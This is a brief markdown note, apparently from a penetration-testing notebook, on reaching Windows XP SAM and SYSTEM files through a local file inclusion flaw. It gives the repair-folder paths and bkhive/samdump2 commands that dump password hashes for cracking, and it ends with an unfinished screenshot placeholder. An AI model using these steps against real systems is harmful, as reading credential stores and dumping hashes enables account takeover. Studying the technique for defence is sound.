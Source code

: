 # cracking SAM LFI 2 SAM

(after windows xp, the SAM files are protected and cannot be retrieved live)

windows xp:

**NOTE: You have to use wget to get the files or else the encoding will be messed up!

~~~
system file: windows\repair\system
SAM file: windows\repair\sam 
~~~

After files are retrieved,
~~~
$ bkhive SYSTEM hive.txt
$ samdump2 SAM hive.txt
~~~

now you are able to crack the hashes

source: http://www.computersecuritystudent.com/SECURITY_TOOLS/PASSWORD_CRACKING/lesson2/
# ADD SCREENSHOTS
